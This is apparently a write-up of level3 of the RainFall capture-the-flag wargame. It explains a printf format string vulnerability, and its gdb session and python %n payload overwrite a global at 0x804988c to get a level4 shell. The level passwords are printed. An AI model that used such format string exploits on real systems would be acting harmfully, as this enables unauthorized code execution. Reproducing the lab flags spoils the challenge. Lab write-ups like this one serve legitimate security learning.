 Format String Vulnerability: 
Using printf(buffer) directly means a user can inject format specifiers (%x, %s, etc.).

Potential Exploit Path: If attacker controls buffer and global at 0x804988c, it may allow arbitrary code execution via the system() call.

level3@RainFall:~$ gdb ./level3 
(gdb) b v
Breakpoint 1 at 0x80484ad
(gdb) r
Starting program: /home/user/level3/level3 
Breakpoint 1, 0x080484ad in v ()
(gdb) set *(int*)0x804988c = 0x40
(gdb) continue
Continuing.
lo
lo
Wait what?!
$ cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

Then it calls printf() directly with the user input as the format string — this introduces a format string vulnerability.

another way :
We leak the stack using "%x" to find where our input lands on the stack, so that we can insert an address like 0x804988c into our input, and printf will read that address as a pointer to write to via %n

python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"'
output:
aaaa 200 b7fd1ac0 b7ff37d0 61616161 ...

You see 61616161 (which is 'aaaa'), that tells you where in the stack your input lands. If 'aaaa' shows up at the 4th %x, then your input is the 4th argument on the stack.

address of m : 4 bytes
pad of arbitrary data : 60 bytes

level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
^C
level3@RainFall:~$ su level4
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
level4@RainFall:~$